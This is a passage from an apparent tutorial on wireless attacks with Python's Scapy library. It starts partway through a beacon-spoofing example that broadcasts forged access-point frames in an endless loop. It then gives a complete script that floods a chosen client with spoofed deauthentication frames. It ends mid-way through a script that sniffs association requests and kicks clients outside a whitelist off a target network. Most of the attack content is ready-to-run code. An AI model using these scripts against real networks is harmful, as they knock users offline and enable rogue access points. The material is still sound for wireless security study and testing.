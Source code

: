 ```python
# RSN info from https://www.4armed.com/blog/forging-wifi-beacon-frames-using-scapy/

while True:
    sendp(packets, iface=IFACE, inter=0.01)
```

Note that we have to include the `RadioTap()` header, otherwise, Linux wouldn't send it over the air. Just something you have to know.

One part that may confuse you here, is why we are stacking a bunch of layers. We're not. Layers can have their payload anywhere, including just after their header. This allows us to simply chain on extra chunks of information. This is useful if the packet can change in length.

Aside from that, basically we stack a bunch of payload on to a raw 802.11 (`Dot11()`) packet. First being the beacon information `Dot11Beacon()`, then these things called "Information elements" (`Dot11Elt()`), which are essentially known values for IDs, some data, and the length of that data. An example of this is the 'SSID' field, which is the name of the access point we are spoofing. Scapy knows that when we type 'SSID', we really mean a particular value that will be placed in the raw packet, not the actual string 'SSID'. 'RSNinfo' represents some extra information about the encryption standards we support. You can simply copy most of this from a real beacon.

## Deauthentication attacks

A simple script that sends deauthentication packets as fast as Linux can send them:

```python
#!/usr/bin/env python2
import sys
from scapy.all import *

IFACE = 'mon0'
AP_MAC = 'ab:cd:ef:ab:cd:ef'
CLIENT_MAC = 'aa:bb:cc:aa:bb:cc'

packet = RadioTap() / \
         Dot11(type=0,         # Management type
               subtype=12,     # Deauthentication subtype
               addr1=CLIENT_MAC,
               addr2=AP_MAC,
               addr3=AP_MAC) / \
         Dot11Deauth(reason=7) # "Class 3 frame received from nonassociated STA."
while True:
	sendp(packet, iface=IFACE)
```

Here we have a simpler packet, all we do is stack on the `Dot11Deauth()` frame type payload, and give some random reason to disconnect the user.


Here is a more sophisticated attack where a malicious user can sniff for WiFi network association requests, and if they aren't part of a whitelist and are trying to connect to a particular target network, kick them off:

```python
#!/usr/bin/env python2
from scapy.all import *
import time

SSID = 'demonet'
IFACE = 'mon0'
whitelist = ['ab:cd:ef:ab:cd:ef']

def check_deauth(pkt):
    elt = pkt[Dot11Elt]
    while elt and elt.ID != 0:
        elt = elt.payload[Dot11Elt]
    if elt.info == SSID:
```